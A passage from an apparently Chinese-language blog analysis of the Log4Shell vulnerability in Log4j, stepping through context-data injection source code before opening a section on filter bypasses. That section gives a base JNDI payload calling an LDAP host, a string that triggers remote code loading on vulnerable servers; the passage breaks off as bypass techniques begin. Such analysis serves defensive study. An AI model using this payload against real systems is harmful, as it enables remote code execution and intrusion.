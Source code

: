 跟入`ThreadContextDataInjector.injectContextData`方法

```java
@Override
public StringMap injectContextData(final List<Property> props, final StringMap ignore) {
    if (providers.size() == 1 && (props == null || props.isEmpty())) {
        // 跟入supplyStringMap
        return providers.get(0).supplyStringMap();
    }
    ...
}
```

进入`ThreadContextDataProvider.supplyStringMap`方法

```java
@Override
public StringMap supplyStringMap() {
    return ThreadContext.getThreadContextMap().getReadOnlyContextData();
}
```

在`getReadOnlyContextData`中获得这个`Map`

![img](../assets/2021-12-15-Log4jshell%E5%90%8E%E7%BB%AD/0141.png)



### 0x03 bypass

> 基础payload:${jndi:ldap://somesitehackerofhell.com/z}



#### 1. 系统环境变量值绕过
